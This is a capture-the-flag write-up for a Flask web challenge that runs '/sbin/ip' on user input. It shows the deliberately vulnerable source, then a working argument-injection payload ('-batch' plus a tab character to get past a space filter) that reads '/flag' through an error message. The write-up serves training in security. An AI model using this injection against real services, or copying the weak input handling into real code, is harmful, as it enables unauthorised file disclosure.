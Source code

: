 ## Description

After the havoc we wreaked last time, the corporate rises again like a phoenix from the ashes, they've bolstered their defenses, but rest assured, we know that nothing can incapacitate our cyber wizard.
The phoenix might have risen again, but will it stand your relentless slaughter ?

**source code available**

## Solution

when visiting the page, we get this :

![mainpage](images/mainpage.png)

it's similar to the previous `Network Navigators Odyssey`, let's check the source code :

```python
from flask import Flask, render_template, request
import subprocess
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/', methods=['POST'])
def ip():
    option = request.form['option']
    # Check that user input doesn't contain any spaces
    if " " in option:
        return "No spaces are allowed."
    # Double the check by spliting user input into an array before passing it securely to subprocess.check_output()
    option = ['/sbin/ip'] + option.split()

    try:
        # Use shell=False to prevent any shell injections
        result = subprocess.check_output(option, text=True,timeout=1,stderr=subprocess.STDOUT, shell=False)
        return f'{result}'
    except subprocess.CalledProcessError as e:
        return f'Error: {e.output}'
    except Exception as e:
        return f"Error {e}"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000,debug=True)
```

this time our the filter is only for spaces, the command executes `/sbin/ip OUR_INPUT`, but it executes the command differently, this time it executes subprocess with `shell=False`, this means there is no way we can get command injection.

instead, let's try another approach, we can try to read files with the `ip` command it self, let's check the ip command help :

```
└─$ ip --help
Usage: ip [ OPTIONS ] OBJECT { COMMAND | help }
       ip [ -force ] -batch filename
where  OBJECT := { address | addrlabel | amt | fou | help | ila | ioam | l2tp |
                   link | macsec | maddress | monitor | mptcp | mroute | mrule |
                   neighbor | neighbour | netconf | netns | nexthop | ntable |
                   ntbl | route | rule | sr | tap | tcpmetrics |
                   token | tunnel | tuntap | vrf | xfrm }
       OPTIONS := { -V[ersion] | -s[tatistics] | -d[etails] | -r[esolve] |
                    -h[uman-readable] | -iec | -j[son] | -p[retty] |
                    -f[amily] { inet | inet6 | mpls | bridge | link } |
                    -4 | -6 | -M | -B | -0 |
                    -l[oops] { maximum-addr-flush-attempts } | -br[ief] |
                    -o[neline] | -t[imestamp] | -ts[hort] | -b[atch] [filename] |
                    -rc[vbuf] [size] | -n[etns] name | -N[umeric] | -a[ll] |
                    -c[olor]}
```

one argument stands out, which is `-batch filename`, this argument read commands from provided file or standard input and invoke them, but if we provide it a file with an invalid command, we get an error with the content of the first word of that file, let's test this out on our machine :

```
└─$ echo 'testflag{THIS_IS_A_TEST}' > test

└─$ ip -batch test
Object "testflag{THIS_IS_A_TEST}" is unknown, try "ip help".
Command failed test:1
```

this works, but the only problem is that we can't provide spaces, and the `${IFS}` trick won't work on this challenge, but there is another trick, we can use a `TAB` instead of a space, let's try it out, first we intercept the request with burp and send it to repeater, then we send this `-batch(TAB)/flag` :

![flag](images/flag.png)

- flag: `shellmates{5laugh73r_7h3_Pho3niXx!___1njec7_1T_w1tH_@rgum3ntSs!!}`

